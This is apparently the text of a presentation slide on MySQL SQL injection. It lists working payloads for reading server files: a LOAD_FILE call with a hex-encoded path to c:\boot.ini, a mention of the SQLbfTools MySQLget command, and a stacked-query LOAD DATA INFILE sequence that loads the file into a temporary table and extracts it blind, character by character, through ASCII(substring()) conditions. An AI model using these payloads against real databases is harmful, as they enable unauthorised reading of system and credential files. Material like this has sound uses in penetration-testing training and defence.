

# MySQL
LoadFile
SELECT LOAD_FILE(0x633A5C626F6F742E696E69)
SQLbfTools: MySQLget command
Load Data infile
; Create table C8DFC643 (datos varchar(4000))
; Load data infile 'c:\\boot.ini' into table C8DFC643
; alter table C8DFC643 add column num integer auto_increment unique key
and (select count(num) from C8DFC643)
and (select length(datos) from C8DFC643 where num = 1)
and (select ASCII(substring(datos,5,1)) from C8DFC643 where num = 1)
; Drop table C8DFC643